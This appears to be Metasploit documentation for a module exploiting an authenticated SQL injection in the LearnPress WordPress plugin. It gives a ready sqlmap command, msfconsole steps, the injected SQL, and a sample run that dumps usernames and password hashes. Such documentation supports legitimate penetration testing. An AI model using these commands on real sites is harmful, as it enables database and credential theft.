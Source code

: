## Vulnerable Application

LearnPress, a learning management plugin for WordPress,
prior to 3.2.6.8 is affected by an authenticated SQL injection via the
`current_items[]` parameter of the `post-new.php` page.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/learnpress.3.2.6.7.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/post-new.php?post_type=lp_order' --cookie '<cookie>' --data "type=lp_course&context=order-items&context_id=32&term=+test&paged=1&lp-ajax=modal_search_items&current_items[]=1" -p "current_items[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_learnpress_sqli`
4. Do: `set username <username>`
5. Do: `set password <password>`
6. Do: `run`
7. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

### PASSWORD

The password for a user.

### USERNAME

The username for a user.

## Scenarios

### LearnPress 3.2.6.7 on Wordpress 5.4.4 on Ubuntu 20.04

```
resource (learnpress.rb)> use auxiliary/scanner/http/wp_learnpress_sqli
resource (learnpress.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (learnpress.rb)> set username admin
username => admin
resource (learnpress.rb)> set password admin
password => admin
resource (learnpress.rb)> set verbose true
verbose => true
resource (learnpress.rb)> set count 3
count => 3
resource (learnpress.rb)> run
[*] Checking /wp-content/plugins/learnpress/readme.txt
[*] Found version 3.2.6.7 in the plugin
[+] Vulnerable version of Learnpress detected
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(CKvFyxDg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Encoded to (select group_concat(CKvFyxDg) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xd5,0)),ifnull(user_pass,repeat(0x49,0))) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_learnpress_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
```
